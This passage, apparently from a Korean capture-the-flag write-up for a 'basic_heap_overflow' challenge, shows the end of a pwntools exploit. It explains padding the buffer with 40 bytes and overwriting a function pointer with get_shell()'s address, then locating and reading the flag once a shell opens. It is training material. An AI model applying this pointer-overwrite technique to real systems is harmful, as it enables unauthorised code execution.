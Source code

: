     r.send(payload)

    r.interactive()
    ```
    `\x90*40`: 버퍼에 아무 문자로 다 채움

    `b'\x7b\x86\x04\x08'`: `over->table()`함수의 주소를 `get_shell()`함수의 주소로 리틀엔디안 방식으로 덮음

    - 코드 수정 전 실행 이후

        쉘이 실행됨을 확인


- 쉘 실행 이후
    `find / -name "flag"`를 입력하여 플래그 파일을 검색
    
    `/home/basic_heap_overflow/flag`

    `cat /home/basic_heap_overflow/flag`를 입력